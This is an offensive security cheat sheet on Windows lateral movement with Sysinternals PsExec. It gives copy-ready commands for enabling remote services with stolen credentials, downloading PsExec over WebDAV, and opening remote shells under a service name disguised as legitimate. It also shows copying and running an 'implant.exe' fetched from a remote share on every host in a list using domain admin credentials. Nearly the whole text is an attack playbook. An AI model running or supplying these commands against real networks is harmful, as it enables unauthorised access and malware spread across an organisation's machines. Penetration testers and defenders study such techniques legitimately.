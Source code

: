 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - lateral-movement
  - living-off-the-land
  - psexec
  - network-protocols
  - smb
  - windows
---
```

# Living off the Land

## 01 - Sysinternals

> [!IMPORTANT] Conditions
> It requires specific services to be enabled in order for `PsExec64.exe` to work. Here are the commands to enable it.

```
C:\> net.exe use \\<IP>\IPC$ /user:<username> <password>
sc.exe \\<IP> config netdde start= auto
sc.exe \\<IP> config netddedsdm start= auto
sc.exe \\<IP> config clipsrv start= auto
sc.exe \\<IP> start netdde
sc.exe \\<IP> start netddedsdm
sc.exe \\<IP> start clipserv
```

### 1.1 - Copy File from WebDAV

#### 1.1.1 - Command Prompt

```
C:\> net.exe use z: \\live.sysinternals.com\tools

C:\> copy z:\PsExec64.exe .

C:\> net.exe use z: /delete
```

#### 1.1.2 - PowerShell

```
PS C:\> New-PSDrive -Name Z -PSProvider FileSystem -Root "\\live.sysinternals.com\tools"

PS C:\> Copy-Item z:\PsExec64.exe .

PS C:\> Remove-PSDrive -Name Z
```

## 02 - Execute PsExec

### 2.1 - Single Machine

```
C:\> .\PsExec64.exe \\<IP> -u <domain>\<username> -p <password> -nobanner -r "A legit service name" cmd.exe

C:\> .\PsExec64.exe \\<IP> -u <domain>\<username> -p <password> -nobanner -r "A legit service name" -d -c "C:\path\to\shell.exe"

C:\> .\PsExec64.exe \\<IP> -u <domain>\<username> -p <password> -nobanner -d -c "C:\path\to\shell.exe"
```

### 2.2 - Multiple Machines

When targeting multiple computers just add the `@` sign.

```
C:\> .\PsExec64.exe @hosts.txt -u <domain>\<username> -p <password> "<commands>"
```

## 03 - Use Cases

### 3.1 - Copy and Execute Implant in Multiple Machines

> [!INFO] One administrator user account can have access to all or most machines
> Use an `Administrator` user or any domain admin account that has access to all or most Windows machines.

```
C:\> .\PsExec64.exe @hosts.txt -u <domain>\<username> -p <password> cmd.exe /c copy /y "\\<IP>\C$\implant.exe" "C:\Windows\Temp\"

.\PsExec64.exe @hosts.txt -u <domain>\<username> -p <password> -d -c "cmd.exe /c C:\Windows\Temp\implant.exe"
```

---
## References

- [Infinite Logins: Popping Remote Shells with Winexe & PTH-Winexe on Windows](https://infinitelogins.com/2020/09/05/popping-remote-shells-pth-winexe-on-windows/)

- [Abusing Windows Admin Shares (Lateral Movement)](https://www.youtube.com/watch?v=41MUhlHGZ4E)

- [harmj0y: Pass the Hash is Dead Long Live Pass the Hash](https://blog.harmj0y.net/penetesting/pass-the-hash-is-dead-long-live-pass-the-hash/)